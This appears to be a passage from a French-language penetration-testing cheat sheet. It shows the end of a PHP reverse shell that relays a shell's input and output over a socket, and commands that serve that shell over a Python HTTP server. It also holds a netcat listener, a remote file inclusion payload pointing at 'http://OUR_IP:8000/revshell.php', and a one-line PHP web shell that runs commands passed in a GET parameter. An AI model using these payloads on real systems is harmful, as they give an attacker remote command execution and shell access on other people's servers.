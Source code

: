 ```BASH
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>' > revshell.php | 
sudo python3 -m http.server 8000
```

Tester plusieurs ports si listener ne reçoit rien (check ports ouverts sur la machine distante ?)

```
sudo nc -nvlp 445
```

```
language=http://OUR_IP:8000/revshell.php
```

### Web Shells
#### HTTP

```BASH
echo '<?php system($_GET["cmd"]); ?>' > shell.php | 
sudo python3 -m http.server 8000
```
